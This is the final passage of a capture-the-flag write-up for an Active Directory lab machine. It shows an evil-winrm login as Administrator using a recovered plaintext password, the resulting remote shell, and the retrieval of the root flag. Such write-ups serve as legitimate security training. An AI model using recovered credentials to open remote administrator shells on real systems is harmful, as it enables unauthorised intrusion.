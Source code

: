 We have credentials for the `Administrator` user: `d0m@in4dminyeah!`

Using `evil-winrm` we can connect as him to the system:

<br />

```bash
❯ evil-winrm -i MEGABANK.LOCAL -u Administrator -p d0m@in4dminyeah!
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megabank\administrator
```

<br />

And get the `root.txt` flag:

<br />

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
3f6823be538fad63dd83e3a4c9xxxxxx
```

<br />

This was a really interesting Active Directory machine.

Hopefully, this writeup helped you understand the core concepts and techniques involved.

Keep hacking!❤️❤️

<br />
